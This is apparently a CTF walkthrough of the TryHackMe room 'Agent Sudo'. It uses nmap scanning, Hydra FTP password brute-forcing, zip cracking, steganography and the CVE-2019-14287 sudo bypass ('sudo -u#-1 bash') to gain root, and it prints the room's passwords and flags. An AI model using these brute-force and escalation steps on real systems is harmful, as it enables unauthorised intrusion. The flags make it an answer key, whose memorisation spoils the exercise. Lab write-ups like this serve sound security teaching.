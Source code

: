 # Agent Sudo

## 1 - How many ports open?

Issue an nmap

```
nmap -sC -sV $IP -oN nmap/inital_scan

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
```

### Answer: 3

## 2 - How you redirect yourself to a secret page?

### Answer: user-agent

## 3 - What is the agent name?

Changing the user agent to R (seen in the disclaimer) got the message:

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident 
```

Seems like the agents are a letter from the alphabet (25 employees + the agent R)

Try all letters (in caps)

```
user-agent: C

Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```

### Answer: chris

## 4 - FTP password

we have a username potentially, we could try the rockyou wordlist since it is stated that the password is weak

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://$IP

FOUND:
time-elapsed: 00:01h 

[21][ftp] host: 10.10.97.44   login: chris   password: crystal
```

### Answer: crystal

## 5 - Zip file password

Running the program strings over the files we can see some filename stegged in the cutie.png

```
To_agentR.txt
```

Tried multiple online tools for the steg but from the questions it must need a password

Lets binwalk this file

```
binwalk -e cutie.png
```

A .zip file is found (password protected). Lets crack the password

```
zip2john 8702.zip > zip_hash

john zip_hash

alien            (8702.zip/To_agentR.txt)
```

### Answer: alien

## 6 - Steg password

The extracted file contained

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

The destination user seems an encrypted name...
Using the website hashes.com we got

```
QXJlYTUx:Area51
```

### Answer: Area51

## 7 - Who is the other agent (in full name)?

Lets use the password to extract the information hidden in the image

used a web tool with the password Area51 over the file .jpg
```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

### Answer: james

## 8 - SSH password

### Answer: hackerrules

## 8 - what is the user flag?

Connect via ssh
```
ssh james@$IP
Password: hackerrules! (to ssh needs the exclamation)

cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

### Answer: b03d975e8c92a7c04146cfa7a5a313c7

## 9 - What is the incident of the photo called?

Used an online image search

### Answer: roswell alien autopsy

## 10 - CVE number for the escalation

Just checking what james can run as root give us 

```
sudo -l
(ALL, !root) /bin/bash

CVE-2019-14287 
```

### Answer: CVE-2019-14287 

## 11 - What is the root flag?

Just use the exploit to get root access

```
sudo -u#-1 bash

whomai
root

cd /root
cat root.txt

To Mr.hacker,

CONTENT:

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

```
### Answer: b53a02f55b57d4439e3341834d70c062

## 12 - (Bonus) Who is Agent R?

### Answer: DesKel